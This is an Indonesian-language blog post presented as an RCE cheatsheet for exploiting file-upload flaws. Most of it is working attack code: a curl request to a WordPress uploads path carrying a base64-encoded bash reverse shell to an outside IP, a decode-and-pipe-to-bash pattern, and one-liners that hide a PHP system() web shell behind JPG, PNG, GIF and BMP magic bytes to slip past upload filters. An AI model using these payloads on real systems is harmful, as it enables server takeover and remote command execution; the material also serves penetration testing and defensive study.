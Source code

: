 ```yaml
---
layout: post
title: "Note: RCE cheatsheet"
date: 2022-12-09
---
```


Karena, saya rada kesusahan untuk mengumpulkan resource jika nanti googling-googling. Dan note yang saya pakai juga tidak lengkap referensinya, maka saya kumpulkan di sini. 

Jika ada malicious upload, maka yang seharusnya dilakukan adalah memanipulasi file extension atau memanipulasi isi dari file tersebut

Bisa juga, jika trik ini tidak berfungsi dengan benar, maka bisa dinjeksi dengan membuat ekstensi menjadi double
```sh
~$ mv shell.jpg shell.jpg.php
```
lalu coba aktifkan dengan curl
```sh
~$ curl -s "http://beloved/wp-content/uploads/2022/12/shell.jpg-1670590514.8364.php?cmd=echo+L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNTkuMS8xMjM0NSAwPiYxCg%3D%3D+%7C+base64+-d+%7C+bash"
```
Dan, tidak perlu repot repot untuk menggunakan <https://revshell.com> yang dibuat oleh 0day. Cukup buat string menjadi URL-encoded, dan eksekusi.
```python
~$ python -c 'import urllib.parse; string = "(isi string di sini)"; print(urllib.parse.quote_plus(string))'
```
Dengan format seperti ini, btw ini format favorit saya.
```sh
~$ echo (base64) | base64 -d | bash  
```

Sebelum masuk ke cheatsheet, jika anda penikmat POST Request bisa mengganti `$_GET` menjadi `$_POST`. LOL semua orang juga sudah tau ini.

## JPG
```shell
echo -n -e '\xFF\xD8\xFF\xE0<?php system($_GET["cmd"]);?>.' > shell.jpg
```

## PNG
```shell
echo -n -e '\x89\x50\x4E\x47<?php system($_GET["cmd"]);?>.' > shell.png
```

## GIF
```shell
echo -n -e '\x47\x49\x46\x38<?php system($_GET["cmd"]);?>.' > shell.gif
```
## BMP
```shell
echo -n -e '\x42\x4D<?php system($_GET["cmd"]);?>.' > shell.bmp
```

Happy hacking!

## References
* https://twitter.com/0x0SojalSec/status/1599809897658724357
